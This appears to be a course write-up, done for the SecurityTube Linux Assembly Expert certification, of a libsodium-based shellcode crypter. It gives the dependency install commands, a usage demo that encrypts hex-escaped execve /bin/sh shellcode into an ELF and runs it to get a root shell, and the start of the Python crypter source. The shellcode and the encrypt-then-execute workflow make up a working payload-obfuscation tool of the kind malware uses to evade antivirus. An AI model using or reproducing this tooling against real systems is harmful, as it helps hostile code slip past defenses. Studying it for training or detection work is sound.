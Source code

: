 ### Dependancies

In order to run the crypter and for the decrypter to be compiled, the machine running the crypter (NOT the target on which the decrypter produced will be ran) requires several packages. All of my development was done on Debian, so these should be the same on systems like Ubuntu and Kali, but you're on your own for RHEL based distros like Fedora and CentOS.

Running he following command as root should install all the run and build dependancies on Debian:

`apt install python3 python3-dev python3-pip libsodium-dev build-essential`

In addition, you'll need to install the python dependancies with pip3.

`pip3 install jinja2 pynacl`

At this point you should be able to run the crypter.

### Usage

My crypter's usage is as follows:

```
root@mountain:~# ./libsodium_crypter.py
Usage: ./libsodium_crypter.py <destination filename> <hex_escaped_shellcode_to_crypt>
```

So here I'll crypt and run a simple execve payload that executes /bin//sh.

```
root@mountain:~# ./libsodium_crypter.py execve_crypted \x31\xd2\x31\xc0\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x52\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80
Finished execve_crypted.elf
root@mountain:~# ls -l
total 1096
-rw-r--r-- 1 fbc216 fbc216     891 Jun 13 16:36 execve_crypted.c
-rwxr-xr-x 1 fbc216 fbc216 1102628 Jun 13 16:36 execve_crypted.elf
-rwxr-xr-x 1 fbc216 fbc216    3871 Jun 13 16:32 libsodium_crypter.py
root@mountain:~# ./execve_crypted.elf
# id
uid=0(root) gid=0(root) groups=0(root)
# echo $0
/bin//sh
```

You can see by running the crypted elf file, the shellcode passed to the crypter is executed.

Sources
=======

### Cryptor Script Source

This can also be found on github [here]().

```python
#!/usr/bin/env python3
"""
Custom libsodium crypter; generates a C source file with an encrypted
shellcode embedded in it. The C is compiled and statically linked to DJB's
public domain Networking and Cryptography Library (NaCl). The program
decrypts and passes execution to the embedded shellcode.
Usage: this_script.py <destination filename> <hex_escaped_shellcode_to_crypt>
Author: fbcsec
This code was written to fulfill the requirements of the SecurityTube Linux Assembly Expert course:
http://www.securitytube-training.com/online-courses/securitytube-linux-assembly-expert/index.html
Student ID: SLAE - 1187
"""

import subprocess
import sys
import os
```